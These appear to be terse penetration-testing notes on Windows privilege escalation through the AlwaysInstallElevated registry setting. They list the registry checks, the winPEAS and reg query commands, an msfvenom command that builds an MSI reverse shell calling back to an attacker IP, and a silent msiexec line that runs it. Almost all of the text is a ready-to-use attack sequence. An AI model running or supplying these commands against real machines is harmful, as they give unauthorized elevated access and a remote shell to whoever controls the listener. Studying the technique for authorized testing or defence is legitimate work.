

We can generate a malicious MSI file which contains a reverse shell
requirements
1. The "AlwaysInstallElevated" value must be set to 1 for both the local machine
HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
and the current user:
HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
if either of these are missing or disabled, the exploit will not work.
Identification
.\winPEASany.exe quiet windowscreds
search: Checking AlwaysInstallElevated
check: HKLM & HKCU must be set to 1
manual checking
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

Payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attacker ip> LPORT=53 -f msi -o reverse.msi
execute
msiexec /quiet /qn /i reverse.msi